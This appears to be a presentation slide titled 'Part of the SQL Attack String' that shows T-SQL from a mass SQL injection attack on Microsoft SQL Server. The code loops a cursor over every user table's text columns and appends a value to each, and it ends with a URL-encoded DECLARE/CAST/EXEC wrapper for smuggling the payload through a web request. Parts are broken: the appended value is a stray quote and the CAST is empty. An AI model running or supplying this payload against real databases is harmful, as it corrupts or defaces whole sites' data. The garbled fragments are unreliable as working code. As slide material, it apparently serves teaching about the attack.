

# Part of the SQL Attack String
DECLARE @T varchar(255),@C varchar(255)
DECLARE Table_Cursor  CURSOR
FOR select a.name,b.name from sysobjects a,syscolumns b where
a.id=b.id and a.xtype='u' and
(b.xtype=99 or b.xtype=35 or b.xtype=231 or b.xtype=167)
OPEN Table_Cursor
FETCH NEXT FROM  Table_Cursor INTO @T,@C
WHILE(@@FETCH_STATUS=0) BEGIN
 exec('update ['+@T+'] set ['+@C+']=rtrim(convert(varchar,['+@C+']))+'‘ ''')
FETCH NEXT FROM  Table_Cursor INTO @T,@C
END CLOSE Table_Cursor
DEALLOCATE Table_Cursor;
DECLARE%20@S%20NVARCHAR(4000);SET%20@S=CAST(
%20AS%20NVARCHAR(4000));EXEC(@S);--